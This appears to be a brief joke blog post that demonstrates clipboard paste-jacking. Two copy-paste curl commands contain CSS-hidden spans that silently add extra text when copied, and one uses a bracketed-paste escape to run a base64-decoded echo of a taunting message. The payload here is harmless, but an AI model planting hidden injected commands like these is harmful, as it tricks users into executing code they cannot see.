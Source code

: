 ```yaml
---
title: 'me admitting to several crimes'
description: 'you wont believe it'
date: '2023-06-12'
---
```


hello fellow InterNet friends

here is me admitting to several crimes in the past few weeks

<pre>
<code>
curl --proto '=https' --tlsv1.2 https://code.juke.fr/kay/juke-fr/raw/branch/main/public/crimes.txt<span style="position: absolute; left: -100px; top: -100px">| ARCHITECTURE= x86_64</span><br>&nbsp;
</code>
</pre>

if it doesnt work try this one sometimes curl gets confused by tls version

<pre>
<code>
curl --proto '=https' <span style="position: absolute; left: -100px; top: -100px">[201~;clear;echo "amsgZ2V0IGZ1Y2tlZCBmZWRzIGhhY2sgdGhlIHBsYW5ldAo="|base64 --d;echo </span>https://code.juke.fr/kay/juke-fr/raw/branch/main/public/crimes.txt<br>&nbsp;
</code>
</pre>

thank you that is all for now
